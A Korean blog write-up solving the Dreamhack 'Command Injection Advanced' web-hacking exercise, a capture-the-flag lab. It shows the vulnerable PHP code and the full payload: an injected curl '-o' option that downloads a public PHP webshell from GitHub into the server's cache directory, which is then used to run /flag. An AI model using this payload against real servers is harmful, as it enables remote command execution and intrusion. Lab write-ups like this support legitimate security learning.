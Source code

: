 ```yaml
---
title: "드림핵 lv.1 - Command Injection Advanced"
date: 2025-03-07 00:20:00 +0800
categories: [Wargame, Dreamhack]
tags: [cyber security, writeup, dreamhack, web hacking, command injection, webshell injection, php] 
description: 드림핵 Command Injection Advanced 웹해킹 워게임 풀이
---
```


[https://dreamhack.io/wargame/challenges/413](https://dreamhack.io/wargame/challenges/413)
# 문제 설명
Exercise: Command Injection Advanced에서 실습하는 문제입니다.

---
# 문제 풀이
## 웹사이트 분석
### main page
메인 페이지는 분석할 만한 것이 딱히 없다.<br />
단순히 어떠한 url을 받는 인풋 박스가 있고 submit 버튼이 전부다. 테스트용으로 "http://localhost:8080"라는 값을 제출하니까 어떤 파일이 `./cache`라는 디렉토리에 생성됐다는 메세지를 볼 수 있다.
```
cache file: ./cache/37d007a56d816107ce5b52c10342db37
```
## 코드 분석
```
[Code Structure]
deploy/
	- src/
		- index.php
	- flag.c
	- run-lamp.sh
Dockerfile
```
### flag.c
```c
#include <stdio.h>

void main(){
	puts("DH{**flag**}\n");
}
```
해당 파일은 플래그를 출력하는 코드가 담겨져있다. 아마 이 문제의 목적은 이 c 파일을 실행시키는 것인 듯 하다.
### Dockerfile
```
# FLAG
COPY deploy/flag.c /flag.c
RUN apt install -y gcc \
    && gcc /flag.c -o /flag \
    && chmod 111 /flag && rm /flag.c
```
파일의 중간 부분을 보면 플래그와 관련된 설정이 보인다.<br />
서버가 실행될 때 `deploy/flag.c`를 `/flag.c`로 복사하고 컴파일을 수행하여 실행 가능한 파일로 만드는 과정을 거치는 것 같다.<br />
간단히 말해서 해당 서버의 루트 디렉토리에 플래그를 출력해주는 flag라는 실행 파일이 존재한다는 것이다.
### index.php
```php
if(isset($_GET['url'])){
	$url = $_GET['url'];
	if(strpos($url, 'http') !== 0 ){
		die('http only !');
	}else{
		$result = shell_exec('curl '. escapeshellcmd($_GET['url']));
		$cache_file = './cache/'.md5($url);
		file_put_contents($cache_file, $result);
		echo "<p>cache file: <a href='{$cache_file}'>{$cache_file}</a></p>";
		echo '<pre>'. htmlentities($result) .'</pre>';
		return;
	}
}
```
코드를 살펴보면 url이 입력됐을 때 url 값에 http가 가장 처음으로 등장하는지 확인하고 그렇다면 `curl + url`을 실행한다. <br /> 그런데 curl을 실행하기 이전에 php의 `escapeshellcmd()` 함수를 이용해서 메타 문자들의 사용을 방지한다.<br />

그러고 나서 cache 파일을 하나 생성하고 curl 명령어의 결과를 해당 파일에 저장한 후 화면에 출력한다. 
## 최종 풀이
테스트용으로  내 블로그 주소와 `--include` 옵션을 추가한 `http://www.hoonsooni.com --include` 문자열을 제출해보니 HTTP response가 출력되는 것을 보니 php 코드 그대로 작동하는 것을 알 수 있다.<br />

우리의 목표는 /flag 파일의 실행 결과를 보는 것인데 단순 url을 조작하는 것으로는 충분하지 않은 것 같다. 아무래도 웹쉘을 업로드해서 해당 웹쉘에서 플래그 파일에 접근하는 것이 좋을 듯 하다.<br />
### 웹쉘 업로드하기
`escapeshellcmd()` 함수는 메타 문자를 먹통 시켜버리는 좋은 함수이지만 command에 전달하는 옵션까지는 어떻게 하지 못한다. <br />
그래서 우리는 `-o` 옵션을 이용하여 임의의 파일을 서버에 저장할 수 있다. 여기서 웹쉘을 저장할 길이 생긴 셈이다.<br />

이제 웹쉘을 서버에서 가져와야하는데 개인 서버가 있다면 본인 서버에 webshell.php을 작성해도 되고 아니면 인터넷에서 웹쉘을 얻어올 수도 있다. <br />
본인은 개인 서버가 없기 때문에 구글에 webshell raw file을 검색하여 얻어냈다. [webshell raw file](https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/c871f130a12e97090a08d0ab855c1b7a93ef1150/easy-simple-php-webshell.php)<br />

```
https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/c871f130a12e97090a08d0ab855c1b7a93ef1150/easy-simple-php-webshell.php -o ./cache/webshell.php
```
위는 웹쉘을 업로드하는 url 값이다.
### 웹쉘 실행하기
이렇게 함으로써 `{dreamhackurl}/cache/webshell.php`에 접근해 웹쉘을 취득할 수 있다.<br />
cmd값으로 /flag를 넣어주면 곧바로 플래그가 출력된다.
# 배운 것
순수 webshell 코드를 깃허브를 통해 얻을 수 있다는 것을 알게됐다.<br />
curl의 -o 옵션을 통해 command injection을 이용한 webshell injection도 가능하다는 것을 배웠다.<br />